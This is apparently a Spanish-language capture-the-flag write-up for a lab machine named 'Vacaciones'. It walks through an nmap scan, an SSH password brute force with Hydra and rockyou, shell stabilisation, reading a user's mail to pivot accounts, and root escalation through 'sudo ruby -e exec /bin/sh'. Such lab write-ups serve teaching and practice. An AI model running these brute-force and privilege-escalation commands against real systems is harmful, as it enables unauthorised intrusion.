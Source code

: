 # MÁQUINA VACACIONES

Lo primeroq que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto.jpg)

Vemos que esta abierto el puerto 80 por lo que vamos a ver que hay en la página web. A primera vista vemos que no hay nada, sin embargo si vemos el código fuente encontramos algo:

![WEB](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto2.jpg)

Vemos que tenemos 2 posibles usuarios, Juan y Camilo, por lo que vamos a intentar obtener la contraseña de uno de ellos usando fuerz bruta:

```shell
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![CAM](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto3.jpg)

Hemos encontrado la contraseña del usuario camilo, por lo que vamos a acceder a la máquina a través de SSH:

![IN](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto4.jpg)

Ya estamos dentro, ahora tendremos que tratar la tty (terminal) con los siguientes comandos:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

```shell
stty rows 24 columns 126
```

Si recordamos juan le había dejado un correo a camilo, por lo que vamos a ver si lo encontramos. Y ahí esta, en la carpeta /var/mail/camilo/

![MAIL](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto5.jpg)

Nos convertimos en juan con el comando su juan:

![JUAN](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto6.jpg)

Si ejecutamos el comando sudo -l vemos que podemos ejecutar ruby como cualquier usuario y sin contraseña, asi que vamos a aprovecharnos de esto para escalar privilegios.

Para ello iremos a la página de GTFOBins y ejeuctaremos lo que nos dice:

https://gtfobins.github.io/gtfobins/ruby/#sudo

```shell
sudo ruby -e 'exec "/bin/sh"'
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Vacaciones/foto7.jpg)

Y ya somos root!


